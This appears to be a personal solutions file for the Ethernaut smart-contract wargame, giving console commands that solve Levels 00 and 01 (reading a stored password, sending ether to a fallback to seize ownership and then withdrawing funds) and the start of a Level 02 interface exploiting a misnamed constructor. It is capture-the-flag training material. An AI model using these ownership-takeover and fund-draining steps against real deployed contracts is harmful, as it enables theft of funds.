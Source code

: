 # Levels

## Level 00

https://ethernaut.openzeppelin.com/level/0

```Javascript
await contract.password()
await contract.authenticate("ethernaut0")
```

https://mumbai.polygonscan.com/tx/0xb479fa5cda3731d1ceb34cd1b7788f30022e31d63eaf4ebc63351c22aa3f3806

## Level 01

https://ethernaut.openzeppelin.com/level/1

```javascript
await contract.owner() 
await contract.contributions("0x2a24869323C0B13Dff24E196Ba072dC790D52479")
await contract.contribute.sendTransaction({from: player, value: toWei('0.0009')})

await sendTransaction({from: player, to: contract.address, value: toWei('0.0000000001')})
await contract.withdraw()
```

## Level 02

https://ethernaut.openzeppelin.com/level/2

```javascript
pragma solidity ^0.6.0;

interface Fallout {
    function Fal1out() external payable;
}
```
